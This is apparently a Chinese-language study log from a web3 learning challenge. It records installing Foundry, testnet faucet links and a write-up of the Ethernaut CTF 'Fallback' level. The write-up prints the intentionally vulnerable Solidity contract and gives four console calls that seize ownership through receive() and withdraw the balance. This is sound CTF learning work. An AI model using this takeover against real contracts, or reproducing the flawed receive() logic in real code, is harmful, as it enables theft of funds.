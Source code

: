 ```yaml
---
timezone: Asia/Shanghai
---
```


# {blockpanda}

1. 自我介绍 - web3新兵

2. 你认为你会完成本次残酷学习吗？- 会

## Notes

<!-- Content_START -->

### 2024.08.29

学习内容
1.安装foundry  
2.领水 https://www.alchemy.com/faucets/ethereum-sepolia     
  https://faucets.chain.link/sepolia    
  https://faucet.chainstack.com/sepolia-testnet-faucet  
3.Ethernaut CTF - Hello Ethernaut 根据教程完成操作  
4.Ethernaut CTF - 暂未完成  

### 2024.08.30
#### 题目
````
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    //公共映射，记录了每个地址捐赠的金额
    mapping(address => uint256) public contributions;
    //公开地址变量，记录合约的拥有者的地址
    address public owner;
    
    //构造函数，合约部署时自动执行，合约部署者设置为初始拥有者。
    //给予部署者 1000 ether 的初始贡献
    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    //修饰器确保只有合约拥有者才能执行某些函数,否则弹出提示
    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    //捐赠函数，1.require条件为假时，交易回滚，msg.value是随当前交易发送的ETH数量
    //2.更新调用者的捐赠总额
    //3.如果调用者贡献超过当前拥有者，则调用者成为拥有者
    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    //允许用户查看自己的贡献总额
    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    //只有拥有者可以提现，将所有ETH转移到拥有者
    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    //receive函数，接收ETH时触发，要求数量大于0，且之前有捐赠者；调用者成为合约拥有者。
    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
````

#### 解题思路

很明显，漏洞在contribute函数，但数量要超过1000ETH，且每次发送小于0.001，实现起来不现实  
那么只能通过receive（）来实现，即直接转账且不附加任何数据  

#### 解题过程  
1.contract.contribute({value: 1}) //首先使贡献值大于0  
2.contract.sendTransaction({value: 1}) //触发fallback函数  
3.contract.owner（）//查看合约拥有者  
4.contract.withdraw() //提现到自己的地址  

<!-- Content_END -->

